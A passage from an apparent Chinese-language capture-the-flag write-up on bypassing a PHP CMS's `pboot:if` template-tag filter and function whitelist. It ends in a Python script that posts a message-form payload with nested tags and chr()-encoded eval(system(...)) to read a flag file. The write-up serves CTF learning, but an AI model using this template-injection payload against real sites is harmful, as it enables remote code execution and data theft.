    <img src="img/break2_comment_test2_306.png" alt="image-20220722205419475" style="zoom:50%;" />

3. 研究资料发现：除了 if 标签过滤以外， `payload` 还被进行一层安全校验：提取出 `pboot:if` 标签条件判断的括号 () 中左括号前的字符串，判断字符串是不是函数或者字符串内容是不是 `eval`，若上述都不满足，再判断字符串不在白名单中，若在白名单中才可执行。

   - `eval`  把字符串作为PHP代码执行

4. 由于 PHP 项目中通过会有移除控制字符的函数。在构造 `payload` 过程中将函数名和括号间插入控制字符进行绕过。使用 `chr()` 拼接字符串，其作用是从指定的 ASCII 指返回字符串，进行拼接绕过。

   ```ascii码对照表
   #system("cat flag.php")的ascii码
   \u0073\u0079\u0073\u0074\u0065\u006d\u0028\u0022\u0063\u0061\u0074\u0020\u0066\u006c\u0061\u0067\u002e\u0070\u0068\u0070\u0022\u0029
   ```

5. 编写拿 flag 的代码：这里经过多次试验，猜测出隐藏 flag 的文件为 `flag.php`

   函数 `post` 发送 `payload`

   ```php
   def myPost(url):
       headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.99 Safari/537.36"}
       post = {
           'contacts': 'stephanieSuu',
           'mobile': '123456',
           'content': '{ppbopboot:ifot:ifboot:if((eval ( chr (0x73).chr (0x79).chr (0x73).chr (0x74).chr (0x65).chr ('
                      '0x6d).chr (0x28).chr (0x22).chr (0x63).chr (0x61).chr (0x74).chr (0x20).chr (0x66).chr (0x6c).chr '
                      '(0x61).chr (0x67).chr (0x2e).chr (0x70).chr (0x68).chr (0x70).chr (0x22).chr (0x29).chr ('
                      '0x3b))))}我今天吃饭了{/pbpbopboot:ifot:ifoot:if} '
           
           #执行system("cat flag.php")一句话木马，
       }
       response = requests.post(url, data=post,headers= headers)
       if response.status_code == 200:
           print("Exp successed")
           return True
       else:
           print("Exp failed, response code=" + str(response.status_code))
           return False           
   ```
